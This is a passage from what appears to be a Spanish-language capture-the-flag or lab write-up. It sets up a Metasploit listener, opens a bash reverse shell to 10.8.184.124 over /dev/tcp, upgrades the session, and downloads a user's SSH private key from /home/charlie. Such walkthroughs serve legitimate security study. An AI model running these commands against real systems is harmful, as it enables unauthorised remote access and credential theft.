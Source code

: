 Se inicia una escucha en el puerto 1234 para recibir la *reverse shell*.

`vim handler.rc`

```
use multi/handler
set PAYLOAD php/reverse_php
set LHOST 10.8.184.124
set LPORT 1234
run
```

`msfconsole -r handler.rc`

![[Pasted image 20250724200054.png]]

![[Pasted image 20250724200116.png]]

`bash -c "sh -i >& /dev/tcp/10.8.184.124/1234 0>&1"`

![[Pasted image 20250724200204.png]]
### Escalada de privilegios

`background`

`sessions -u 1`

`sessions 2`

`sysinfo`

![[Pasted image 20250724200252.png]]

`getuid`

![[Pasted image 20250724200306.png]]

Se accede al directorio: `/home/charlie`.

`ls -la`

![[Pasted image 20250724200506.png]]

Se descarga los archivos `teleport` y `teleport.pub`.

`download teleport.pub`

`cat teleport.pub`

![[Pasted image 20250724200714.png]]

`download download teleport`

`cat teleport`

![[Pasted image 20250724200640.png]]
